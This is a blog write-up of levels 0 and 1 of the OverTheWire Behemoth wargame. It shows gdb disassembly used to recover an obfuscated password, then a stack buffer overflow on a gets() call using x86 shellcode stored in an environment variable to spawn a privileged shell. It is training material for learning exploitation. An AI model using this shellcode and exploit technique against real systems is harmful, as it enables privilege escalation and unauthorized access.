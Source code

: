 
---
layout: post
title: narnia-behemoth-00
excerpt: "Writeup for L0 & L1 of the Behemoth wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---

[overthewire / behemoth](http://www.overthewire.org/wargames/behemoth/)

## Level 0 ##

Unlike narnia, in behemoth the source code is not available to us - so let's decompile.

``` shell
behemoth0@behemoth:/behemoth$ gdb -q behemoth0
Reading symbols from behemoth0...(no debugging symbols found)...done.
) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x080485a2 <+0>:     push   ebp
   0x080485a3 <+1>:     mov    ebp,esp
   0x080485a5 <+3>:     and    esp,0xfffffff0
   0x080485a8 <+6>:     sub    esp,0x70
   0x080485ab <+9>:     mov    eax,gs:0x14
   0x080485b1 <+15>:    mov    DWORD PTR [esp+0x6c],eax
   0x080485b5 <+19>:    xor    eax,eax
   0x080485b7 <+21>:    mov    DWORD PTR [esp+0x1f],0x475e4b4f
   0x080485bf <+29>:    mov    DWORD PTR [esp+0x23],0x45425953
   0x080485c7 <+37>:    mov    DWORD PTR [esp+0x27],0x595e58
   0x080485cf <+45>:    mov    DWORD PTR [esp+0x10],0x8048720
   0x080485d7 <+53>:    mov    DWORD PTR [esp+0x14],0x8048738
   0x080485df <+61>:    mov    DWORD PTR [esp+0x18],0x804874d
   0x080485e7 <+69>:    mov    DWORD PTR [esp],0x8048761
   0x080485ee <+76>:    call   0x8048400 <printf@plt>
   0x080485f3 <+81>:    lea    eax,[esp+0x2b]
   0x080485f7 <+85>:    mov    DWORD PTR [esp+0x4],eax
   0x080485fb <+89>:    mov    DWORD PTR [esp],0x804876c
   0x08048602 <+96>:    call   0x8048470 <__isoc99_scanf@plt>
   0x08048607 <+101>:   lea    eax,[esp+0x1f]
   0x0804860b <+105>:   mov    DWORD PTR [esp],eax
   0x0804860e <+108>:   call   0x8048440 <strlen@plt>
   0x08048613 <+113>:   mov    DWORD PTR [esp+0x4],eax
   0x08048617 <+117>:   lea    eax,[esp+0x1f]
   0x0804861b <+121>:   mov    DWORD PTR [esp],eax
   0x0804861e <+124>:   call   0x804857d <memfrob>
   0x08048623 <+129>:   lea    eax,[esp+0x1f]
   0x08048627 <+133>:   mov    DWORD PTR [esp+0x4],eax
   0x0804862b <+137>:   lea    eax,[esp+0x2b]
   0x0804862f <+141>:   mov    DWORD PTR [esp],eax
   0x08048632 <+144>:   call   0x80483f0 <strcmp@plt>
   0x08048637 <+149>:   test   eax,eax
   0x08048639 <+151>:   jne    0x8048665 <main+195>
   0x0804863b <+153>:   mov    DWORD PTR [esp],0x8048771
   0x08048642 <+160>:   call   0x8048420 <puts@plt>
   0x08048647 <+165>:   mov    DWORD PTR [esp+0x8],0x0
   0x0804864f <+173>:   mov    DWORD PTR [esp+0x4],0x8048782
   0x08048657 <+181>:   mov    DWORD PTR [esp],0x8048785
   0x0804865e <+188>:   call   0x8048460 <execl@plt>
   0x08048663 <+193>:   jmp    0x8048671 <main+207>
   0x08048665 <+195>:   mov    DWORD PTR [esp],0x804878d
   0x0804866c <+202>:   call   0x8048420 <puts@plt>
   0x08048671 <+207>:   mov    eax,0x0
   0x08048676 <+212>:   mov    edx,DWORD PTR [esp+0x6c]
   0x0804867a <+216>:   xor    edx,DWORD PTR gs:0x14
   0x08048681 <+223>:   je     0x8048688 <main+230>
   0x08048683 <+225>:   call   0x8048410 <__stack_chk_fail@plt>
   0x08048688 <+230>:   leave
   0x08048689 <+231>:   ret
End of assembler dump.
```

The `strcmp` looks interesting. If it doesn't match we jump to `0x8048665`, which prints the string located at `0x804878d`:

``` shell
(gdb) x/s 0x804878d
0x804878d:      "Access denied.."
```

If it does match however:

``` shell
(gdb) x/s 0x8048771
0x8048771:      "Access granted.."
```

Let's find out what `strcmp` is looking at:

``` shell
(gdb) x/10wx $esp
0xffffd6a0:     0xffffd6cb      0xffffd6bf      0xffffd6c0      0x080482d2
0xffffd6b0:     0x08048720      0x08048738      0x0804874d      0x65eb8fe6
0xffffd6c0:     0x796d7461      0x726f6873
(gdb) x/s 0xffffd6cb
0xffffd6cb:     "foo"
(gdb) x/s 0xffffd6bf
0xffffd6bf:     "eatmyshorts"
```

If you run `strings` on the binary, you'll note this string wasn't stored anywhere - and for kicks it was obfuscated with `memfrob`. But sure enough:

``` shell
behemoth0@behemoth:~$ /behemoth/behemoth0
Password: eatmyshorts
Access granted..
$ whoami
behemoth1
$ cat /etc/behemoth_pass/behemoth1
*** password ***
```

## Level 1 ##

Again, we have no source - so we'll have to use `gdb`.

``` shell
behemoth1@behemoth:~$ gdb -q /behemoth/behemoth1
Reading symbols from /behemoth/behemoth1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x0804845d <+0>:     push   ebp
   0x0804845e <+1>:     mov    ebp,esp
   0x08048460 <+3>:     and    esp,0xfffffff0
   0x08048463 <+6>:     sub    esp,0x60
   0x08048466 <+9>:     mov    DWORD PTR [esp],0x8048530
   0x0804846d <+16>:    call   0x8048310 <printf@plt>
   0x08048472 <+21>:    lea    eax,[esp+0x1d]
   0x08048476 <+25>:    mov    DWORD PTR [esp],eax
   0x08048479 <+28>:    call   0x8048320 <gets@plt>
   0x0804847e <+33>:    mov    DWORD PTR [esp],0x804853c
   0x08048485 <+40>:    call   0x8048330 <puts@plt>
   0x0804848a <+45>:    mov    eax,0x0
   0x0804848f <+50>:    leave
   0x08048490 <+51>:    ret
End of assembler dump.
(gdb) x/s 0x804853c
0x804853c:      "Authentication failure.\nSorry."
```

The disassembly is a little disappointing. It looks like no matter what we input to `gets`, we display the 'Authentication failure' message. But `gets` is in the same family of 'insecure' functions as `scanf`. We can probably overflow:

``` shell
behemoth1@behemoth:~$ python -c 'print "D"*200' | /behemoth/behemoth1
Password: Authentication failure.
Sorry.
Segmentation fault (core dumped)
```

Right. Now let's see what the offset is - `pwntools` to the rescue!

``` shell
behemoth1@behemoth:~$ python -c 'import pwnlib;print pwnlib.util.cyclic.cyclic(200)' | strace /behemoth/behemoth1 2>&1 | tail -n2
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x61617561} ---
+++ killed by SIGSEGV (core dumped) +++
behemoth1@behemoth:~$ python -c 'import pwnlib;print pwnlib.util.cyclic.cyclic_find(0x61617561)'
79
```

So we'll need to pad 79 bytes before we can overwrite the return address. We'll overwrite that with the address of an environment variable containing our shellcode. Let's start by finding out where this variable, `EGG` will be located. We use a quick `C` program to figure that out.

``` c
#include <stdio.h>
#include <stdlib.h>

int
main(int argc, char* argv[])
{
  printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```

Compile, and run:

``` shell
behemoth1@behemoth:~$ env -i EGG=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" ') /home/behemoth1/abc EGG
EGG is at 0xffffdfc0
```

This works because we are unsetting the environment first and the name of our program (`/home/behemoth1/abc`) matches the length of `/behemoth/behemoth1`.

``` shell
behemoth1@behemoth:~$ python -c 'print "D"*79 + "\xc0\xdf\xff\xff"' | env -i EGG=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" ') /behemoth/behemoth1
Password: Authentication failure.
Sorry.
```

Mmm. No segfault, but no shell. This is probably because the pipe closed. Let's try to keep it open:

``` shell
behemoth1@behemoth:~$ (python -c 'print "D"*79 + "\xc0\xdf\xff\xff"';cat) | env -i EGG=$(python -c 'print "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80" ') /behemoth/behemoth1
Password: Authentication failure.
Sorry.
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
*** password ***
```

Yay!
